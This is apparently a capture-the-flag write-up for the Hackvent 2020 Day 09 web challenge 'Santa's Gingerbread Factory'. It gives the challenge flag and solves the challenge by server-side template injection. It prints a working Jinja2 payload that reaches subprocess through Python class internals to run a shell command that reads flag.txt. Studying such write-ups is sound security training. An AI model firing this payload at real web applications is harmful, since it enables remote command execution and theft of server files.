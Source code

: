 ```yaml
---
layout: writeup
title: 'Day 09: Santa’s Gingerbread Factory'
level:
difficulty:
points:
categories: []
tags: []
flag: HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
---
```

## Description

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the RESOURCES section on top.

Besides the gingerbread men, there are other goodies there. Let's see if
you can get the goodie, which is stored in /flag.txt.

## Solution

We realise we can do a server side template injection (SSTI); this
challenge is very similar to [this previous
writeup](../PicoCTF_2018/writeup.md#web-exploitation-900-flaskcards-and-freedom)
from PicoCTF 2018.

We follow this method, and find the injection that gives us our flag:

{% raw %}
```
{{ ''.__class__.__mro__[2].__subclasses__()[258]('cat flag.txt',shell=True,stdout=-1).communicate() }}"
```
{% endraw %}

![](writeupfiles/dec9_solution.png)

